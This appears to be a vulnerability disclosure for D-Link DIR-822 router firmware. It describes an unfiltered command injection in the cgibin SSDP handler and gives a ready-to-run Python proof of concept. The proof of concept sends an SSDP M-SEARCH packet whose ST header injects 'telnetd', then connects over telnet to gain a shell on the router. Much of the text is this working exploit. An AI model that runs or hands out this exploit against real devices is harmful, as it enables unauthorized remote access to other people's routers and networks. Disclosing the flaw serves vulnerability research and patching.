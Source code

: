 ### 1、 Vulnerability Introduction

DIR-822文件中，存在命令执行漏洞

### 2、 Firmware version

```
DIR822_FW100WWb08.bin
```

### 3、 vulnerability analysis

```
In the cgibin file, ssdpcgi_ In the main function, the data passed from the front-end is obtained through getenv and directly passed as a parameter to lxmldbc without filtering_ Command execution vulnerability caused by system function
```

https://github.com/XYIYM/Digging/blob/main/D-LINK/DIR-822/cmd/1/upload/clip_image002.jpg

### 4、 poc

```python
import sys
import os
import socket
from time import sleep

def config_payload(ip, port):
  header = "M-SEARCH * HTTP/1.1\n"
  header += "HOST:"+str(ip)+":"+str(port)+"\n"
  header += "ST:urn:device:1;telnetd\n"
  header += "MX:2\n"
  header += 'MAN:"ssdp:discover"'+"\n\n"
  return header
  
def send_conexion(ip, port, payload):
  sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
  sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
  sock.sendto(payload,(ip, port))
  sock.close()
  
if __name__== "__main__":
  ip = raw_input("Router IP: ")
  port = 1900

headers = config_payload(ip, port)
send_conexion(ip, port, headers)
sleep(5)
os.system('telnet ' + str(ip))
```

https://github.com/XYIYM/Digging/blob/main/D-LINK/DIR-822/cmd/1/upload/clip_image004.jpg
